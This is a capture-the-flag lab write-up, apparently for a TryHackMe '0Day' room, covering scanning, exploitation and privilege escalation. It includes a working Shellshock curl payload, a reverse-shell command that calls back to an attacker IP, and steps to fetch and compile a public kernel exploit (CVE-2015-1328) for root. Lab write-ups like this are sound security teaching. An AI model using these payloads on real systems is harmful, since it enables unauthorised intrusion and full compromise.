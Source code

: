 #Title: 0Day\n
#Difficulty: Medium
#Type: Kernel Exploit
#By Fagan Afandiyev.

```shell
THM="10.10.78.47"
```

```bash
nmap -sC -sV $THM
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0day
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are 2 ports open: 22,80. We see that there is a website running here.

Lets check with nikto.

```bash
nikto --url http://$THM  
```

```shell
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.78.47
+ Target Hostname:    10.10.78.47
+ Target Port:        80
+ Start Time:         2023-11-12 19:57:39 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /cgi-bin/test.cgi: Uncommon header '93e4r0-cve-2014-6271' found, with contents: true.
+ /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
+ /admin/: This might be interesting.
+ /backup/: This might be interesting.
+ /css/: Directory indexing found.
+ /css/: This might be interesting.
+ /img/: Directory indexing found.
+ /img/: This might be interesting.
+ /secret/: This might be interesting.
+ /cgi-bin/test.cgi: This might be interesting.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/


```

There are couple important parts to look at: */admin/* */backup/* */secret/*.
*/admin/* and */secret/* directories are empty but backup includes s ssh key that we can decrypty but there are more to look at right now.

It appears that there is a `shellshock` vulnerability at `/cgi-bin/test.cgi`. We can use curl to exploit it and run commands in server.

```bash
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://$THM/cgi-bin/test.cgi
```

```shell
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
We proved this website is vulnerable to shellshock. We can change the code and get a reverse shell.
Lets first start listening with netcat.

```bash
nc -lnvp 22
```


```bash
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -c 'bash -i >& /dev/tcp/10.6.87.204/22 0>&1'" http://$THM/cgi-bin/test.cgi 
```

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ cat /home/ryan/user.txt
<Redacted>
```

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
```

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

This version of linux is vulnerable to CVE-2015-1328.
We need to get the exploit to the server for that we will need to download to our own machine and create a python server and wget from our machine.

```bash
#Attacker 
wget https://www.exploit-db.com/download/37292
python -m http.server 
#Enemy
cd /tmp/
wget 10.6.87.204:8000/37292.c
gcc 37292.c -o privesc
```

```shell
gcc: error trying to exec 'cc1': execvp: No such file or directory
```
```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

```bash
gcc 37292.c -o privesc
./privesc
```
BOOM!!! We are root. We can now go and get the root flag.

```bash
cd /root/
cat root.txt 
<Redacted>
```
